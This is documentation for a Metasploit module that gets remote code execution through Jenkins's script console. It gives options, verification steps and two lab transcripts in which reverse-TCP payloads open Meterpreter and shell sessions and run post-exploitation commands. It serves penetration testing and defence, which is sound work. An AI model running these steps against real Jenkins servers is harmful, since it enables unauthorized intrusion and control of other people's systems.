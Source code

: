 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account in order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

  This exploit has been tested against the following Jenkins versions:
  * 2.411
  * 2.410
  * 2.409
  * 2.401.1
  * 2.346.3
  * 2.103
  * 1.565

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/jenkins_script_console```
  4. Do: ```set RHOST [target host]```
  5. Do: ```set TARGET [target id]```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

### TARGETURI

  The path to the target instance of Jenkins.

### USERNAME

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

### PASSWORD

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using an API_TOKEN (see below).

### API_TOKEN

  An API token to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using a PASSWORD (see above).

## Scenarios

  Example usage against a Windows 7 SP1 x64 bit target running Jenkins 2.19.1.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME steiner
  USERNAME => steiner
  msf exploit(jenkins_script_console) > set PASSWORD I<3msf!
  PASSWORD => I<3msf!
  msf exploit(jenkins_script_console) > set RHOST 192.168.254.126
  RHOST => 192.168.254.126
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 192.168.254.132
  LHOST => 192.168.254.132
  msf exploit(jenkins_script_console) > exploit

  [*] [2016.10.29-18:43:07] Started reverse TCP handler on 192.168.254.132:4444
  [*] [2016.10.29-18:43:07] Checking access to the script console
  [*] [2016.10.29-18:43:07] Logging in...
  [*] [2016.10.29-18:43:07] Using CSRF token: '9623d245b9d60b5ceda72e2d3613431c' (Jenkins-Crumb style)
  [*] [2016.10.29-18:43:07] 192.168.254.126:8080 - Sending command stager...
  [*] [2016.10.29-18:43:08] Command Stager progress -   2.06% done (2048/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   4.11% done (4096/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   6.17% done (6144/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -   8.22% done (8192/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  10.28% done (10240/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  12.33% done (12288/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  14.39% done (14336/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  16.45% done (16384/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  18.50% done (18432/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  20.56% done (20480/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  22.61% done (22528/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  24.67% done (24576/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  26.72% done (26624/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  28.78% done (28672/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  30.84% done (30720/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  32.89% done (32768/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  34.95% done (34816/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  37.00% done (36864/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  39.06% done (38912/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  41.11% done (40960/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  43.17% done (43008/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  45.23% done (45056/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  47.28% done (47104/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  49.34% done (49152/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  51.39% done (51200/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  53.45% done (53248/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  55.50% done (55296/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  57.56% done (57344/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  59.61% done (59392/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  61.67% done (61440/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  63.73% done (63488/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  65.78% done (65536/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  67.84% done (67584/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  69.89% done (69632/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  71.95% done (71680/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  74.00% done (73728/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  76.06% done (75776/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  78.12% done (77824/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  80.17% done (79872/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  82.23% done (81920/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  84.28% done (83968/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  86.34% done (86016/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  88.39% done (88064/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  90.45% done (90112/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  92.51% done (92160/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  94.56% done (94208/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  96.62% done (96256/99626 bytes)
  [*] [2016.10.29-18:43:24] Command Stager progress -  98.67% done (98304/99626 bytes)
  [*] [2016.10.29-18:43:24] Sending stage (957999 bytes) to 192.168.254.126
  [*] [2016.10.29-18:43:24] Command Stager progress - 100.00% done (99626/99626 bytes)
  [*] Meterpreter session 1 opened (192.168.254.132:4444 -> 192.168.254.126:49258) at 2016-10-29 18:43:26 -0400

  meterpreter > sysinfo
  Computer        : PWNME-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64 (Current Process is WOW64)
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/win32
  meterpreter >

  ```

  Example usage against a Linux x64 bit target running Jenkins 2.46.3.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set RHOST 172.17.0.1
  RHOST => 172.17.0.1
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME admin
  USERNAME => admin
  msf exploit(jenkins_script_console) > set API_TOKEN 24e0b80d009ed12590ff85866d88c00d
  API_TOKEN => 24e0b80d009ed12590ff85866d88c00d
  msf exploit(jenkins_script_console) > set TARGET 1
  TARGET => 1
  msf exploit(jenkins_script_console) > set PAYLOAD linux/x86/shell/reverse_tcp
  PAYLOAD => linux/x86/shell/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 10.0.2.4
  LHOST => 10.0.2.4
  msf exploit(jenkins_script_console) > exploit

  [*] Started reverse TCP handler on 10.0.2.4:4444 
  [*] Checking access to the script console
  [*] Authenticating with token...
  [*] Using CSRF token: 'd41639a6f5721760a8ee3df5d6a71eec' (Jenkins-Crumb style)
  [*] 172.17.0.1:8080 - Sending Linux stager...
  [*] Sending stage (36 bytes) to 172.17.0.2
  [*] Command shell session 1 opened (10.0.2.4:4444 -> 172.17.0.2:53962) at 2017-06-19 16:55:42 -0500
  [!] Deleting /tmp/AsqL5Pg payload file

  whoami
  jenkins
  id
  uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
  uname -a
  Linux b4b4e715101e 4.4.0-79-generic #100-Ubuntu SMP Wed May 17 19:58:14 UTC 2017 x86_64 GNU/Linux
  ```
